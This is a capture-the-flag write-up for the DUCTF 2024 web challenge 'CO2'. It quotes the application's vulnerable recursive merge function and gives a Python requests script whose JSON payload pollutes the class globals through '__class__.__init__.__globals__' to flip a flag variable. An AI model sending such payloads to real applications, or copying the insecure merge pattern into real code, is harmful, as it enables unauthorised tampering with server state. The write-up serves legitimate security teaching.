 # CO2

Category: Web (Easy)

Points: 100

Solves: 289

>A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application.



### Solution

After parsing through all the source code and website features we can see our main goal:

```py
# routes.py file
...
flag = os.getenv("flag")

# Not quite sure how many fields we want for this, lets just collect these bits now and increase them later. 
# Is it possible to dynamically add fields to this object based on the fields submitted by users?
class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""

...

@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    print(data)
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200

@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

```py
# utils.py file
...
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
...
```

It seems like there is a flag enviroment variable set to `"false"` which we need to set to `"true"` to obtain the flag from the `/get_flag` endpoint. The only useful endpoint on the website is the `/save_feedback` endpoint where we post feedback data which gets stored in a `feedback` class and stored on the system.

The vulnerable part seems to be that `/save_feedback` allow us to set any attribute in the `feedback` class. (There are four default options: title, contest, rating, and referred. Any other option will be added through the `merge` function.)

Since we can update any attribute we can use Class Pollution, (Prototype Pollution but in Python) (Also the challenge name CO2 checks out since it's pollution :skull:)(Also the [HackTricks article](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution) has the same merge function :skull::skull:).

Essentially, from Python Classes (just like in SSTI) we can navigate to global vars:

```py
feedback.__class__.__init__.__globals__
# returns a dictionary of all global vars
```

From here we can write a script to pollute feedback and set `flag` to `"true"`:

```py
import requests

cookies = {
    'session': '...',
}

headers = {
    ...
}

json_data = {
    '__class__' : {
        '__init__' : {
            '__globals__': {'flag': 'true'}
        }
    }
}

response = requests.post('https://web-co2-99ded1262ff8ec34.2024.ductf.dev/save_feedback', cookies=cookies, headers=headers, json=json_data)
```

Now going to the `/get_flag` endpoint yields the flag:

![Flag](/images/CO2Flag.png)

### Flag

```DUCTF{_cl455_p0lluti0n_ftw_}```